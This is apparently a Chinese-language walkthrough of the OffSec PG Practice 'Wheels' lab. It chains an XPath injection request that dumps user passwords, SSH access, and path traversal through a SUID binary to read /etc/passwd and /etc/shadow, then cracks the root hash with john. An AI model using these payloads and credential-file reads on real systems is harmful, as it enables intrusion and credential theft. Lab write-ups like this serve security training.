


###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Wheels
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.245.202 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.245.202:22
Open 192.168.245.202:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Wheels - Car Repair Services
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

使用`fuff`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.245.202/FUZZ.php -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

login                   [Status: 200, Size: 7957, Words: 2086, Lines: 172, Duration: 215ms]
register                [Status: 200, Size: 8192, Words: 2171, Lines: 177, Duration: 214ms]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 315ms]
config                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 216ms]
```

他要成為會員才能查看`portal.php`，前往`http://192.168.245.202/register.php`


```
Username: admin
Email: info@wheels.service
Password: admin
```

註冊後可以前往`http://192.168.245.202/portal.php`



打開burpsuite中斷之後，在參數`work='`這樣輸入，但得到`XML Error:`
```
GET /portal.php?work='&action=search HTTP/1.1
Host: 192.168.245.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.245.202/portal.php?work=car&action=search
Connection: close
Cookie: PHPSESSID=b7m450o4t4shf9085gsllti6ut
Upgrade-Insecure-Requests: 1
```

參考[XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)，可得到密碼
```
# search=Har') and contains(../password,'c

GET /portal.php?work=')]+|+//password%00&action=search HTTP/1.1
Host: 192.168.245.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.245.202/portal.php?work=car&action=search
Connection: close
Cookie: PHPSESSID=b7m450o4t4shf9085gsllti6ut
Upgrade-Insecure-Requests: 1
```



```
1 	bob     Iamrockinginmyroom1212
2 	alice   iamarabbitholeand7875
3 	john    johnloveseverontr8932

1 	dan     lokieismyfav!@#12
2 	alex    alreadydead$%^234
3 	selene  lasagama90809!@
```

ssh登入，`/home/bob`有local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh bob@192.168.245.202

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bob@wheels:~$ cat local.txt
3fa02dc9ed37dc1709bf140f2e5244cf
```

透過找binary，可以找到一個`get-list`，把它下載到kali查看看
```
bob@wheels:/$ find / -perm -u=s -type f 2>/dev/null
/opt/get-list
...


bob@wheels:/opt$ python3 -m http.server 8000

┌──(kali㉿kali)-[~/pgplay]
└─$ strings get-list 
...
Which List do you want to open? [customers/employees]: 
customers
employees
Opening File....
/bin/cat /root/details/%s
...
```

表示執行這個程式之後，他會執行`/bin/cat /root/details/%s`，會印出`/root/details/`底下的`customers`跟`employees`，感覺可以來印印看其他路徑的東西
```
bob@wheels:/opt$ ./get-list
Which List do you want to open? [customers/employees]: ../../etc/passwd
Oops something went wrong!!
```

發現他要輸入`customers或employees`才能動，透過`#`來輸入可以成功
```
bob@wheels:/opt$ ./get-list


Which List do you want to open? [customers/employees]: ../../etc/passwd #customers
Opening File....

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/sh
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
```

查看`/etc/shadow`
```
bob@wheels:/opt$ ./get-list


Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
lp:*:18474:0:99999:7:::
mail:*:18474:0:99999:7:::
news:*:18474:0:99999:7:::
uucp:*:18474:0:99999:7:::
proxy:*:18474:0:99999:7:::
www-data:*:18474:0:99999:7:::
backup:*:18474:0:99999:7:::
list:*:18474:0:99999:7:::
irc:*:18474:0:99999:7:::
gnats:*:18474:0:99999:7:::
nobody:*:18474:0:99999:7:::
systemd-network:*:18474:0:99999:7:::
systemd-resolve:*:18474:0:99999:7:::
systemd-timesync:*:18474:0:99999:7:::
messagebus:*:18474:0:99999:7:::
syslog:*:18474:0:99999:7:::
_apt:*:18474:0:99999:7:::
tss:*:18474:0:99999:7:::
uuidd:*:18474:0:99999:7:::
tcpdump:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18634:0:99999:7:::
systemd-coredump:!!:18634::::::
lxd:!:18634::::::
usbmux:*:18864:0:99999:7:::
bob:$6$9hcN2TDv4v9edSth$KYm56Aj6E3OsJDiVUOU8pd6hOek0VqAtr25W1TT6xtmGTPkrEni24SvBJePilR6y23v6PSLya356Aro.pHZxs.:19123:0:99999:7:::
mysql:!:19123:0:99999:7:::
```

破出root的hash，切成root到`/root`可得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ john root --wordlist=/home/kali/rockyou.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
highschoolmusical (?) 

bob@wheels:/opt$ su root
Password: highschoolmusical 
root@wheels:/opt# cd /root
root@wheels:~# cat proof.txt
d12b14cdd19b2d8176c38b224565cd72
```